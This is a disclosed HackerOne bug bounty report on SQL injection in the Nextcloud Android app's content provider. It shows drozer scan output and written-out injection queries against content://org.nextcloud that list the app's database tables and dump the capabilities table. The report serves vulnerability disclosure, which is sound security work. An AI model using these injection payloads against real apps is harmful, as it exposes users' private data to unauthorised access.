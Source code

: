 # SQL Injection found in NextCloud Android App Content Provider

## Report Details
- **Report ID**: 291764
- **URL**: https://hackerone.com/reports/291764
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-11-20T03:55:23.627Z
- **Disclosed**: 2019-07-26T07:36:53.626Z

## Reporter
- **Username**: bluedangerforyou
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Using Drozer, we identified com.nextcloud.client is vulnerable to Sql Injection
here is output from drozer:

dz> run scanner.provider.injection -a com.nextcloud.client
Scanning com.nextcloud.client...
Not Vulnerable:
  content://com.nextcloud.android.providers.UsersAndGroupsSearchProvider
  content://downloads/public_downloads
  content://com.google.android.gsf.gservices/prefix/
  content://com.nextcloud.client.firebaseinitprovider/
  content://com.google.android.gms.chimera/
  content://com.google.android.gms.chimera
  content://com.google.android.gsf.gservices
  content://org.nextcloud.files/
  content://com.nextcloud.client.firebaseinitprovider
  content://downloads/public_downloads/
  content://com.google.android.gsf.gservices/prefix
  content://org.nextcloud.documents/
  content://org.nextcloud.files
  content://org.nextcloud.documents
  content://com.nextcloud.android.providers.UsersAndGroupsSearchProvider/
  content://com.google.android.gsf.gservices/

Injection in Projection:
  content://org.nextcloud/
  content://org.nextcloud

Injection in Selection:
  content://org.nextcloud/
  content://org.nextcloud


We can see its vulnerable by running:

dz> run app.provider.query content://org.nextcloud/ --projection "'"
unrecognized token: "' FROM filelist ORDER BY filename collate nocase asc" (code 1): , while compiling: SELECT ' FROM filelist ORDER BY filename collate nocase asc
#################################################################
Error Code : 1 (SQLITE_ERROR)
Caused By : SQL(query) error or missing database.
        (unrecognized token: "' FROM filelist ORDER BY filename collate nocase asc" (code 1): , while compiling: SELECT ' FROM filelist ORDER BY filename collate nocase asc)
#################################################################
#################################################################
Error Code : 1 (SQLITE_ERROR)
Caused By : SQL(query) error or missing database.
        (unrecognized token: "' FROM filelist ORDER BY filename collate nocase asc" (code 1): , while compiling: SELECT ' FROM filelist ORDER BY filename collate nocase asc
#################################################################
Error Code : 1 (SQLITE_ERROR)
Caused By : SQL(query) error or missing database.
        (unrecognized token: "' FROM filelist ORDER BY filename collate nocase asc" (code 1): , while compiling: SELECT ' FROM filelist ORDER BY filename collate nocase asc)
#################################################################)
#################################################################
dz>

we see 12 tables by running this command in drozer:

dz> run app.provider.query content://org.nextcloud/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql






                              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)






                              |
| table | filelist         | filelist         | 4        | CREATE TABLE filelist(_id INTEGER PRIMARY KEY, filename TEXT, path TEXT, parent INTEGER, created INTEGER, modified INTEGER, content_type TEXT, content_length INTEGER, media_path TEXT, file_owner TEXT, last_sync_date INTEGER, keep_in_sync INTEGER, last_sync_date_for_data INTEGER, modified_at_last_sync_for_data INTEGER, etag TEXT, share_by_link INTEGER, public_link TEXT, permissions TEXT null,remote_id TEXT null,update_thumbnail INTEGER, is_downloading INTEGER, favorite INTEGER, etag_in_conflict TEXT, shared_via_users INTEGER)


                              |
| table | ocshares         | ocshares         | 5        | CREATE TABLE ocshares(_id INTEGER PRIMARY KEY, file_source INTEGER, item_source INTEGER, share_type INTEGER, shate_with TEXT, path TEXT, permissions INTEGER, shared_date INTEGER, expiration_date INTEGER, token TEXT, shared_with_display_name TEXT, is_directory INTEGER, user_id INTEGER, id_remote_shared INTEGER, owner_share TEXT )



                              |
| table | capabilities     | capabilities     | 6        | CREATE TABLE capabilities(_id INTEGER PRIMARY KEY, account TEXT, version_mayor INTEGER, version_minor INTEGER, version_micro INTEGER, version_string TEXT, version_edition TEXT, core_pollinterval INTEGER, sharing_api_enabled INTEGER, sharing_public_enabled INTEGER, sharing_public_password_enforced INTEGER, sharing_public_expire_date_enabled INTEGER, sharing_public_expire_date_days INTEGER, sharing_public_expire_date_enforced INTEGER, sharing_public_send_mail INTEGER, sharing_public_upload INTEGER, sharing_user_send_mail INTEGER, sharing_resharing INTEGER, sharing_federation_outgoing INTEGER, sharing_federation_incoming INTEGER, files_bigfilechunking INTEGER, files_undelete INTEGER, files_versioning INTEGER, files_drop INTEGER, external_links INTEGER, server_name TEXT, server_color TEXT, server_slogan TEXT, background_url TEXT ) |
| table | list_of_uploads  | list_of_uploads  | 7        | CREATE TABLE list_of_uploads(_id INTEGER PRIMARY KEY, local_path TEXT, remote_path TEXT, account_name TEXT, file_size LONG, status INTEGER, local_behaviour INTEGER, upload_time INTEGER, force_overwrite INTEGER, is_create_remote_folder INTEGER, upload_end_timestamp INTEGER, last_result INTEGER, is_while_charging_only INTEGER, is_wifi_only INTEGER, created_by INTEGER )



                              |
| table | synced_folders   | synced_folders   | 8        | CREATE TABLE synced_folders(_id INTEGER PRIMARY KEY, local_path TEXT, remote_path TEXT, wifi_only INTEGER, charging_only INTEGER, enabled INTEGER, subfolder_by_date INTEGER, account  TEXT, upload_option INTEGER, type INTEGER )




                              |
| table | external_links   | external_links   | 9        | CREATE TABLE external_links(_id INTEGER PRIMARY KEY, icon_url TEXT, language TEXT, type INTEGER, name TEXT, url TEXT )





                              |
| table | arbitrary_data   | arbitrary_data   | 10       | CREATE TABLE arbitrary_data(_id INTEGER PRIMARY KEY, cloud_id TEXT, key TEXT, value TEXT )





                              |
| table | virtual          | virtual          | 11       | CREATE TABLE virtual(_id INTEGER PRIMARY KEY, type TEXT, ocfile_id INTEGER )





                              |
| table | filesystem       | filesystem       | 12       | CREATE TABLE filesystem(_id INTEGER PRIMARY KEY, local_path TEXT, is_folder INTEGER, found_at LONG, upload_triggered INTEGER, syncedfolder_id STRING, modified_at LONG )


Lets look into the capabilities table:

dz> run app.provider.query content://org.nextcloud/ --projection "* FROM capabilities;--"


| _id | account | version_mayor | version_minor | version_micro | version_string | version_edition | core_pollinterval | sharing_api_enabled | sharing_public_enabled | sharing_public_password_enforced | sharing_public_expire_date_enabled | sharing_public_expire_date_days | sharing_public_expire_date_enforced | sharing_public_send_mail | sharing_public_upload | sharing_user_send_mail | sharing_resharing | sharing_federation_outgoing | sharing_federation_incoming | files_bigfilechunking | files_undelete | files_versioning | files_drop | external_links | server_name | server_color | server_slogan | background_url |


we see account


## Attachments
No attachments
